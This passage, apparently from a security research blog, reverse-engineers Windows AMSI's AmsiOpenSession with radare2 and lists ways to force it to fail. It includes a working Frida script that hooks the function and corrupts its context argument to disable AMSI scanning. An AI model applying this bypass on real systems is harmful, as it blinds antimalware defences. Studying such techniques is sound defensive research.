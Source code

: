 *(click the image if you can't see it very well)*

Looking at the call graph, we can see that there are two main execution paths through the function. The red path is contingent on a series of sanity checks passing; if they all pass, then execution continues through until the function ultimately returns with a value of zero, or S_OK. However, the green path is more interesting to us. If any of the checks fail, then we get to this instruction block:

[![a screenshot of a radare2 call graph, showing the error result](/img/amsiopensession_error.png)](/img/amsiopensession_error.png)

This block moves 0x80070057 into %eax, and then returns from the function. A quick look at the Microsoft documentation for [common HRESULT values](https://learn.microsoft.com/en-us/windows/win32/seccrypto/common-hresult-values) shows us that 0x80070057 represents "E_INVALIDARG". Seems like we're in the right place, so let's look at a few different ways we can get this function to return an error.

Here are all of the blocks that can potentially end up returning the E_INVALIDARG error, in order:

1. Test if %rdx is equal to zero. This is the second argument, or *AmsiSession*.
2. Test if %rcx is equal to zero. This is the first argument, or *AmsiContext*.
3. Compare the first DWORD of *AmsiContext* with a hardcoded signature value, 0x49534d41 ("AMSI").
4. Test if the QWORD at *AmsiContext+0x8* is equal to zero.
5. Test if the QWORD at *AmsiContext+0x10* is equal to zero.

So, this gives a number of candidates for alternate bypasses:

1. Hook *AmsiOpenSession()* and force the return value to be 0x80070057.
2. Hook *AmsiOpenSession()* and replace the first argument with a null pointer.
3. Hook *AmsiOpenSession()* and replace the second argument with a null pointer.
4. Hook *AmsiOpenSession()* and replace the first argument with a pointer to an invalid buffer.
5. Hook *AmsiOpenSession()* and corrupt the first 4 bytes of *AmsiContext*.
6. Hook *AmsiOpenSession()* and zero out the QWORD at offset 0x8 or 0x10.

We don't need to implement every single one of these to prove our point, but let's do a few. Here's an example that allocates a dummy buffer and replaces *AmsiContext* with it:

```javascript
//find AmsiOpenSession()
var amsi = Process.getModuleByName("amsi.dll");
var target = amsi.getExportByName("AmsiOpenSession");

var E_INVALIDARG = 0x80070057;

//hook AmsiOpensession()

Interceptor.attach(target, {
	onEnter: function(args) {
		//Allocate a buffer to use as a dummy amsiContext argument.
		//It will be invalid, causing an error to be thrown.
		console.log("AmsiOpenSession() invoked! Let's cause problems :)");
		var buf = Memory.alloc(7096);
		Memory.protect(buf, 7096, "rw-");
		args[0] = buf;
	},
	onLeave: function(retval) {
		//Verify the E_INVALIDARG error was thrown by checking the function's return value.
		if (retval == E_INVALIDARG) {
			console.log("AmsiOpenSession() returned E_INVALIDARG; AMSI should now be disabled.");
			Interceptor.detachAll();
		}
	}
});
```
